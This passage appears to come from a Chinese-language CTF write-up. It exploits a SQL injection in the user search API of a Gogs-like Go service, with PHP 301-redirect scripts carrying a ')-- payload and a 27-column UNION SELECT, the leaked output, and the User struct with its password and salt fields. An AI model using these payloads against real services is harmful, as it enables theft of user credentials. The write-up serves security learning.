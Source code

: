 ```go
```

>在第一个exp的后面提到了`models/user.go`,不过我只看了前面的`repo.go`...

利用`models/user.go`中的like注入,传入`')--`即可得到用户名和密码

```php
<?php
Header("HTTP/1.1 301 Moved Permanently");
Header("Location: http://127.0.0.1:3000/api/v1/users/search?q=')--");
```

![](https://img.mi3aka.eu.org/2022/09/a9ac977f0fd826eabf7bf21d99e5f3ae.png)

`{"username":"susanne","avatar":"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"}`

经过测试,得知一共回显了27列,第3列和第15列可以正常回显

```php
<?php
Header("HTTP/1.1 301 Moved Permanently");
Header("Location: http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--");
```

![](https://img.mi3aka.eu.org/2022/09/683db3a2787a8ebe147cc911dd6a9c8d.png)

`user`结果如下

```go
type User struct {
	Id            int64
	LowerName     string `xorm:"UNIQUE NOT NULL"`
	Name          string `xorm:"UNIQUE NOT NULL"`
	FullName      string
	Email         string `xorm:"UNIQUE NOT NULL"`
	Passwd        string `xorm:"NOT NULL"`
	LoginType     LoginType
	LoginSource   int64 `xorm:"NOT NULL DEFAULT 0"`
	LoginName     string
	Type          UserType
	Orgs          []*User       `xorm:"-"`
	Repos         []*Repository `xorm:"-"`
	NumFollowers  int
	NumFollowings int
	NumStars      int
	NumRepos      int
	Avatar        string `xorm:"VARCHAR(2048) NOT NULL"`
	AvatarEmail   string `xorm:"NOT NULL"`
	Location      string
	Website       string
	IsActive      bool
	IsAdmin       bool
	Rands         string    `xorm:"VARCHAR(10)"`
	Salt          string    `xorm:"VARCHAR(10)"`
	Created       time.Time `xorm:"CREATED"`
	Updated       time.Time `xorm:"UPDATED"`

	// For organization.
	Description string
	NumTeams    int
	NumMembers  int
	Teams       []*Team `xorm:"-"`
	Members     []*User `xorm:"-"`
}
```
